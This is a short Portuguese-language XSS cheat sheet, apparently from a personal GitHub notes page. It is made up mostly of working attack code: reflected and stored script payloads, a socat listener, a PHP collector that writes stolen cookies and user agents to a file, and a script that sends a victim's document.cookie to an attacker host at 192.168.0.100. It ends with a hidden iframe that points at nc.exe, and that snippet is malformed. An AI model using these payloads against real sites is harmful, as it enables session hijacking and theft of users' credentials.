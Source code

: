 # XSS

## XSS Reflected
<script>alert('Teste XSS')</script>

## XSS Stored
Possui um impacto maior pois o script fica salvo na página e toda vez que essa página é acessada o script é executado.

```html
<script>alert(document.cookie)</script>
```  
```html
<script>new Image().src="http://192.168.0.100:8081/";</script>
```  
```html
<script>new Image().src="http://192.168.0.100:8081/";</script>
```  

Use o socat para receber as conexões:  
```bash
socat TCP-LISTEN:8081,reuseaddr,fork -
```

### Coletando cookies:

Coletor de cookie:
```php
\\código no servidor
<?php
    $cookie=$_GET['cookie'];
    $useragent=$_SERVER['HTTP_USER_AGENT'];
    $file=fopen('cookie.txt','a');
    fwrite($file,"USER AGENT:$useragent || COOKIE:$cookie \n");
    fclose($file);
?>
```
*Necessário ter um arquivo cookie.txt criado.*  

Script para ser executado no alvo:  
```html
<script>new Image().src="http://192.168.0.100:8081/coletor.php?cookie="+document.cookie;</script>
```

### Download de arquivo  
```html
<iframe>src="http://192.168.0.100:8081/nc.exe" height="0" width="0"</iframe>
```
